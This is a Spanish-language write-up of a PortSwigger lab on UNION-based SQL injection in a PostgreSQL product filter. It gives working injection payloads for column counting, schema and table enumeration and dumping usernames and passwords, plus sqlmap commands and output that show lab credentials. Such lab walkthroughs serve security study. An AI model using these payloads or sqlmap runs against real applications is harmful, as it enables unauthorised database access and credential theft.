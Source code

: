 ```yaml
---
title: "SQL injection UNION attack, retrieving data from other tables"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:39:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving data from other tables
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-9/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-9/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-9/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-9/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-9/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información. En este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle`, debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-9/image_6.png)

`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-9/image_7.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-9/image_8.png)

`Listamos` todos los `esquemas` para la `base de datos actual`

```
/filter?category='+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-9/image_9.png)

`Listamos` el `nombre` de las `tablas` del esquema `public`

```
/filter?category='+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-9/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-9/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+username,password+from+users--+-+
```

![](/assets/img/SQLI-Lab-9/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+----------+
| products |
| users    |
+----------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users -C username,password --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | 9ti7sbwit1xxfn9k0bev |
| wiener        | mlcv6e5h7scs5tzvmhmq |
| carlos        | 4k5cdgfdtrvmg2922kev |
+---------------+----------------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-9/image_13.png)
